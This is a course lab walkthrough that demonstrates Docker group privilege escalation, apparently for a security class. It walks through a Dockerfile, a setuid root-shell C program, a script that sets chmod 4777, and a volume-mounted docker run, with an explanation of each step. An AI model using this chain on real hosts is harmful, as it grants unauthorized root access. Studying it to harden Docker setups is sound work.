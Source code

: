 # Attack 1: Privilege escalation using Volume Mount

Note:

- The Docker daemon is a background process responsible for managing Docker containers and interacting with the host operating system.
- Docker Daemon requires root privileges to perform some of its operations, So it runs with root privileges.
- If a user is part of docker group, it is possible to elevate his/her privileges to root.
- We are going to use docker volumes and setuid binaries to achieve this.
- We can mount the volume of the host into a container for persistent storage using docker volumes.
- When a binary is created by a root user and the setuid bit is set on it.  It will run as root even when a low privilege user executes it.

## Requirements:

1. The user should be part of the docker group

```bash
┌──(kali㉿kali)-[~/Desktop/INSE 6130/privilege escalation]
└─$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),117(scanner),140(wireshark),142(kaboxer),143(vboxsf)
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/INSE 6130/privilege escalation]
└─$ id | grep "docker"                         
```

1. If not make the user the part of the docker group

```bash

┌──(kali㉿kali)-[~/Desktop/INSE 6130/privilege escalation]
└─$ sudo usermod -aG docker kali      
[sudo] password for kali: 
                               
# Reboot
┌──(kali㉿kali)-[~/Desktop/INSE 6130/privilege escalation]
└─$ sudo reboot    
[sudo] password for kali: 

# Run the following to confirm that the user is in the docker group

┌──(kali㉿kali)-[~/Desktop/INSE 6130/privilege escalation]
└─$ id | grep "docker"     
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),117(scanner),140(wireshark),142(kaboxer),143(vboxsf),145(docker)
         
```

## Steps:

### 1. Docker File

A Dockerfile is a text file containing instructions for building a Docker container image, specifying the environment, dependencies, and commands needed to create a reproducible environment for running an application.

```bash
┌──(kali㉿kali)-[~/Desktop/INSE 6130/privilege escalation]
└─$ cat Dockerfile
FROM alpine:latest
COPY shellscript.sh shellscript.sh
COPY shell shell
                       
```

The Dockerfile  is instructing Docker to create a Docker container image based on the Alpine Linux distribution. It then copies two files, `shellscript.sh` and `shell`, into the root directory of the container.

Here's what each line does:

1. `FROM alpine:latest`: This line specifies the base image for the Docker container. It instructs Docker to use the latest version of Alpine Linux as the starting point for building the container.
2. `COPY shellscript.sh shellscript.sh`: This line copies the file `shellscript.sh` from the current directory on your local machine (where the Dockerfile is located) into the root directory of the container. The syntax is `COPY <source> <destination>`, so in this case, it's copying `shellscript.sh` from the local directory to the same location within the container.
3. `COPY shell shell`: This line copies the file `shell` from the current directory on your local machine into the root directory of the container. Similar to the previous line, it's copying `shell` from the local directory to the same location within the container.

Overall, this Dockerfile sets up a basic Alpine Linux-based container and adds two files (`shellscript.sh` and `shell`) to its root directory. 

### 2. Shell.c

```bash
┌──(kali㉿kali)-[~/Desktop/INSE 6130/privilege escalation]
└─$ cat shell.c    
#include <unistd.h> // For setuid()
#include <stdlib.h> // For system()

int main()
{
        setuid(0);
        system("/bin/sh");
        return 0;
}         
```

The C program **`shell.c`** is designed to escalate privileges by running **`/bin/sh`** with root permissions. Here's a brief explanation of what it does:

1. **`#include <unistd.h>`** and **`#include <stdlib.h>`**: These are header files that provide declarations and definitions for functions used in the program.
2. **`setuid(0);`**: This function call sets the effective user ID (EUID) of the process to 0, which is the user ID of the root user. This effectively escalates privileges, allowing the subsequent **`system()`** call to execute commands with root privileges.
3. **`system("/bin/sh");`**: This line uses the **`system()`** function to execute the command **`/bin/sh`**, which starts a new shell. Since the effective user ID has been set to 0 (root) in the previous step, the shell that is spawned will have root privileges, effectively providing a root shell to the user.
4. **`return 0;`**: This line is the end of the **`main()`** function and indicates successful completion of the program.

### 3.  shellscript.sh

```bash
**┌──(kali㉿kali)-[~/Desktop/INSE 6130/privilege escalation]
└─$ cat shellscript.sh     
#!/bin/bash

cp shell /shared/shell
chmod 4777 /shared/shell**

```

The shell script **`shellscript.sh`** performs the following actions:

1. **`#!/bin/bash`**: This line is called a "shebang" and indicates that the script should be executed using the Bash shell.
2. **`cp shell /shared/shell`**: This command copies the file named **`shell`** (presumably the compiled executable from the **`shell.c`** program) to the **`/shared`** directory with the name **`shell`**. The **`/shared`** directory is likely shared with other containers or the host system, making the **`shell`** executable accessible outside the container.
3. **`chmod 4777 /shared/shell`**: This command sets the permissions of the **`/shared/shell`** executable to **`4777`**. Breaking down the permissions:
    - The first digit (**`4`**) indicates the setuid bit is set. This means that the executable will run with the permissions of the file owner (root in this case) when executed.
    - The following digits (**`777`**) grant full read, write, and execute permissions to the owner, group, and others, respectively. This ensures that anyone can execute the **`shell`** executable and gain root privileges when it runs due to the setuid bit.

Once we build the image and once we start the container, we are going to get the new binary to the shared volume , we can grab that and we can execute it to get root privileges.

### 4. Build the Docker Image:

```bash
┌──(kali㉿kali)-[~/Desktop/INSE 6130/privilege escalation]
└─$ docker build --rm -t privilege_escalation .
Sending build context to Docker daemon  20.99kB
Step 1/3 : FROM alpine:latest
latest: Pulling from library/alpine
4abcf2066143: Pull complete 
Digest: sha256:c5b1261d6d3e43071626931fc004f70149baeba2c8ec672bd4f27761f8e1ad6b
Status: Downloaded newer image for alpine:latest
 ---> 05455a08881e
Step 2/3 : COPY shellscript.sh shellscript.sh
 ---> 99f5c218f711
Step 3/3 : COPY shell shell
 ---> 6f19f0fcc49b
Successfully built 6f19f0fcc49b
Successfully tagged privilege_escalation:latest
```

- **`docker build`**: This command tells Docker to build an image based on the instructions specified in the Dockerfile located in the current directory.
- **`-rm`**: This option instructs Docker to remove intermediate containers created during the build process. This helps to keep the system clean by removing unnecessary containers after the build is complete.
- **`t privilege_escalation`**: This option tags the resulting image with the name **`privilege_escalation`**. Tags are used to identify and reference Docker images.
- **`.`**: This period specifies the build context, which is the current directory (**`./`**). Docker looks for the Dockerfile and any other necessary files in this directory to build the image.

### 5. Start the Container:

```bash
┌──(kali㉿kali)-[~/Desktop/INSE 6130/privilege escalation]
└─$ docker run -v /tmp/:/shared/ privilege_escalation:latest /bin/sh shellscript.sh
```

This **`docker run`** command executes a Docker container based on the **`privilege_escalation:latest`** image. Let's break down the command:

- **`docker run`**: This command is used to create and start a new Docker container.
- **`v /tmp/:/shared/`**: This flag mounts the local directory **`/tmp/`** to the **`/shared/`** directory inside the Docker container. This means that files in **`/tmp/`** on the host system will be accessible from within the container at **`/shared/`**.
- **`privilege_escalation:latest`**: This specifies the name and tag of the Docker image to use for creating the container. In this case, it's using the **`privilege_escalation`** image with the **`latest`** tag.
- **`/bin/sh shellscript.sh`**: This specifies the command to run inside the container. It runs the shell script **`shellscript.sh`** using **`/bin/sh`** as the interpreter.

![Untitled](Attack%201%20Privilege%20escalation%20using%20Volume%20Mount%20b75bb92065c5405db71e4025d4132e05/Untitled.png)

- The shell file is created in /tmp with setuid bit set.

### 6. Running the script created in /tmp through the docker container

- Before executing the script

![Untitled](Attack%201%20Privilege%20escalation%20using%20Volume%20Mount%20b75bb92065c5405db71e4025d4132e05/Untitled%201.png)

- Executing the script.

![Untitled](Attack%201%20Privilege%20escalation%20using%20Volume%20Mount%20b75bb92065c5405db71e4025d4132e05/Untitled%202.png)

![Untitled](Attack%201%20Privilege%20escalation%20using%20Volume%20Mount%20b75bb92065c5405db71e4025d4132e05/Untitled%203.png)

### Reference:

[Root your Docker host in 10 seconds for fun and profit | Electricmonk.nl weblog](https://www.electricmonk.nl/log/2017/09/30/root-your-docker-host-in-10-seconds-for-fun-and-profit/)